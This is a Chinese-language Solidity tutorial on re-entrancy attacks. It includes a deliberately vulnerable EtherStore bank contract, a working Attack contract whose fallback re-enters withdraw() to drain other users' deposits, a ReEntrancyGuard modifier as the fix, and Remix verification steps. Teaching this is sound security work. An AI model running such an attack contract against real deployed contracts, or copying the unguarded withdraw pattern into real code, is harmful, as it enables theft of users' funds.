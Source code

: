 # 66.Re-Entrancy
## 漏洞
重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。
重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。当在攻击合约中的fallback()或receive()函数中重新调用了目标合约的withdraw()函数
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
## 银行合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太币到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太币。
   你将会得到3个以太币（其中2个以太币是从Alice和Bob那里被盗取的，另外1个以太币是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 攻击合约
```solidity
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太币时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
## remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。
![66-1.png](./img/66-1.png)
部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。
![66-2.png](./img/66-2.png)
